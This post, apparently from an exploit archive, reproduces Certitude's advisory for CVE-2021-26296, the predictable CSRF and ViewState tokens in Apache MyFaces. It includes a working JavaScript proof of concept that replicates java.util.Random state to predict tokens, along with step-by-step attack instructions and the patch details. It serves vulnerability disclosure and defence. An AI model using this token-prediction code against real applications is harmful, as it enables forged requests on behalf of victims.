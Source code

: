 ```yaml
---
layout: post
title: Apache MyFaces 2.x Cross Site Request Forgery
date: 2021-02-22 02:27 +0300
categories: [Exploits, Cross-Site Request Forgery (CSRF)]
tags: [exploits]
---
```








![](../../../assets/img/Exploits/ApacheM.png)

There is a cross-site request forgery vulnerability present in Apache MyFaces versions 2.2.13 and earlier, 2.3.7 and earlier, 2.3-next-M4 and earlier, as well as 2.1 and earlier.

  

```
MD5 | a8e80747410cdf24bd08eed09d1cb041
```

```perl
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    ~                Ceritude Securiy Advisory - CSA-2021-001                   ~
    ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~
     PRODUCT          : Apache MyFaces
     VENDOR           : The Apache Software Foundation
     SEVERITY         : High
     AFFECTED VERSION : <=2.2.13, <=2.3.7, <=2.3-next-M4, <=2.1 branches
     IDENTIFIERS      : CVE-2021-26296
     PATCH VERSION    : 2.2.14, 2.3.8, 2.3-next-M5, 3.0.0
     FOUND BY         : Wolfgang Ettlinger, Certitude Lab
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    
    Introduction
    ------------
    
    Apache MyFaces is an open-source implementation of JSF. During a quick
    evaluation, Certitude found that the default CSRF protection of Apache MyFaces
    was insufficient as the CSRF tokens the framework generates can be guessed by
    an attacker.
    
    Moreover, the patch provided by the Apache MyFaces maintainers affects the way
    channel tokens for websocket communication are generated. It is unclear,
    whether this change fixes a vulnerability.
    
    Vulnerability Overview
    ----------------------
    
    Applications that employ the MyFaces JSF framework transmit a parameter
    "javax.faces.ViewState" with every state-modifying request. Though not
    intended for CSRF protection, in the default configuration this parameter
    prevents trivial attacks, as it is sufficiently long and tied to a single
    session.
    
    However, by default, this value is generated using the insecure random number
    generator `java.util.Random`. An attacker can therefore obtain a ViewState
    parameter from the application and, based on this value, predict the random
    part of ViewState parameters subsequently issued to other users. Besides the
    random string, the ViewState parameter contains a sequence number. As the
    initial value of the per-session sequence counter is 1, an attacker can very
    easily guess this value.
    
    As the ViewState parameter is the sole CSRF protection, knowledge of this
    value allows an attacker to conduct CSRF attacks.
    
    When Apache MyFaces is used in client-side saving mode, the ViewState
    parameter is insufficient to protect against CSRF. Instead, pages that require
    protection against CSRF can be marked as "protected-pages". For these pages,
    Apache MyFaces requires CSRF token for each request ("javax.faces.Token"). By
    default, the CSRF token too is generated using `java.util.Random`, thus
    allowing an attacker to bypass the CSRF protection.
    
    NOTE: Besides the ViewState parameter and the CSRF token, Apache MyFaces also
    introduced a cryptographically secure random number generator for the
    websocket channel token. Certitude has not verified if this change fixes a
    vulnerability.
    
    Proof of Concept
    ----------------
    
    By default, the class
    `org.apache.myfaces.application.viewstate.RandomKeyFactory` is used to
    generate ViewState parameter values. This class uses the method
    `java.util.Random#nextBytes` as well as a per-session counter value to
    generate ViewState strings.
    
    The following JavaScript snippet demonstrates the generation of the random
    part of a ViewState value based on the random part of a previously issued
    ViewState parameter:
    
    ``` {.javascript}
    const multiplier = 0x5DEECE66Dn;
    const addend = 0xBn;
    const mask = (1n << 48n) - 1n;
    
    const unbyte = (bytes, offset) => BigInt(
        Array.from(bytes.slice(offset, offset + 4))
        .map((b, i) => b << (8 * i))
        .reduce((a, b) => a + b));
    
    const longify = n => integer(n, 8n);
    const intify = n => integer(n, 4n);
    const byteify = n => integer(n, 1n);
    
    function integer(n, len) {
        const bits = len * 8n;
        const hspan = 1n << (bits - 1n);
        return ((n + hspan) % (2n * hspan)) - hspan;
    }
    
    const hexToByteArray = s => (new Uint8Array(s.length / 2)
        .map((_, i) => (
            parseInt(s.charAt(2 * i), 16) << 4 |
            parseInt(s.charAt(2 * i + 1), 16))));
    
    const byteArrayToHex = b => (Array.from(b)
        .map(x => (((x + 0x100).toString(16)).substr(-2)))
        .reduce((a, b) => a + b))
        .toUpperCase();
    
    // based on https://github.com/fta2012/ReplicatedRandom/blob/master/ReplicatedRandom.java
    function replicatedRandom(bytes) {
        let seed = 0;
    
        replicateState(
            unbyte(bytes, bytes.length - 8), 32n,
            unbyte(bytes, bytes.length - 4), 32n);
    
        return nextBytes(bytes.length);
    
        function replicateState(nextN, n, nextM, m) {
            const upperMOf48Mask = ((1n << m) - 1n) << (48n - m);
            const oldSeedUpperN = (nextN << (48n - n)) & mask;
            const newSeedUpperM = (nextM << (48n - m)) & mask;
    
            let possibilityCount = 0;
    
            for (let oldSeed = oldSeedUpperN;
                    oldSeed <= (oldSeedUpperN | ((1n << (48n - n)) - 1n));
                    oldSeed++) {
                const newSeed = longify(
                    longify(oldSeed * multiplier + addend) & mask);
    
                if ((newSeed & upperMOf48Mask) == newSeedUpperM) {
                    possibilityCount++;
                    seed = newSeed;
                }
            }
    
            if (possibilityCount != 1) throw new Error('replicateState failed');
        }
    
        function next(bits) {
            seed = longify(longify(seed * multiplier + addend) & mask);
            return intify(seed >> (48n - bits));
        }
    
        function nextBytes(count) {
            const res = new Int8Array(count);
    
            for (let i = 0; i < count; ) {
                let rnd = next(32n);
                for (let n = Math.min(count - i, 4); n > 0; n--) {
                    res[i++] = parseInt(byteify(rnd));
                    rnd >>= 8n;
                }
            }
    
            return res;
        }
    }
    ```
    
    An attacker can exploit this issue as follows:
    
    1.  An attacker lures an authenticated victim to an attacker-controlled
        website.
    2.  As the victim opens the website, the attacker requests a ViewState value
        from the application.
    3.  The exploit script opens the target JSF page e.g. in an iframe. For this
        page, the vulnerable application generates a new random ViewState value.
    4.  The attacker now predicts a number of the random strings based on the
        ViewState value received in step 2. As the victim's ViewState value is
        generated just after the attacker's ViewState value, it is very likely,
        that the victim's ViewState value is among the generated ones.
    5.  The exploit script sends several CSRF requests containing combinations of
        predicted random strings and sequence numbers. If guessed correctly, the
        vulnerable application accepts the attacker's request.
    
    A similar approach is possible to attack protected pages. Unlike the ViewState
    values, the CSRF token generated, however, do not contain a sequence counter.
    
    Resolution
    ----------
    
    The Apache MyFaces maintainers have released a patch that addresses the
    identified issue. Certitude recommends affected organizations to immediately
    upgrade to version 2.2.14, 2.3.8, 2.3-next-M5 or 3.0.0. If an upgrade to the
    latest version is not possible, the Apache MyFaces maintainers recommend
    setting the following settings to "secureRandom":
    
    -   org.apache.myfaces.RANDOM_KEY_IN_VIEW_STATE_SESSION_TOKEN
    -   org.apache.myfaces.RANDOM_KEY_IN_CSRF_SESSION_TOKEN
    -   org.apache.myfaces.RANDOM_KEY_IN_WEBSOCKET_SESSION_TOKEN
    
    Note that the patch introduces changes in the way websocket channel tokens are
    generated. Certitude therefore recommends applying the patch or workaround to
    all applications that use Apache MyFaces, even if CSRF attacks are of no
    concern.
    
    Timeline
    --------
    
      ---------------------------------------------------------------------------
      Date         Text
      ------------ --------------------------------------------------------------
      2020-12-15   Sending encrypted vulnerability description and proof of
                   concept script to the Apache security team
    
      2020-12-15   Apache security team acknowledges receipt
    
      2020-12-28   Apache MyFaces team member requests proof of concept script
    
      2021-01-04   Asking for encrypted communication channel
    
      2021-01-04   Vendor provides PGP key
    
      2021-01-05   Sending encrypted proof of concept
    
      2021-01-07   Vendor requests more information about the PoC
    
      2021-01-08   Providing requested information
    
      2021-01-19   Coordination call with vendor
    
      2021-01-26   Coordination call with vendor
    
      2021-02-02   Coordination call with vendor, release of patches is imminent
    
      2021-02-09   Coordination call with vendor, 3 of 4 patches have been
                   released
    
      2021-02-15   Coordination call with vendor, last patch release is in
                   progress
    
      2021-02-19   Public release of the advisory
      ---------------------------------------------------------------------------
    
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
                                               (c) 2021 Certitude Consulting GmbH
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
```
    

<br>        

  

>*Source* :   [https://packetstormsecurity.com](https://packetstormsecurity.com)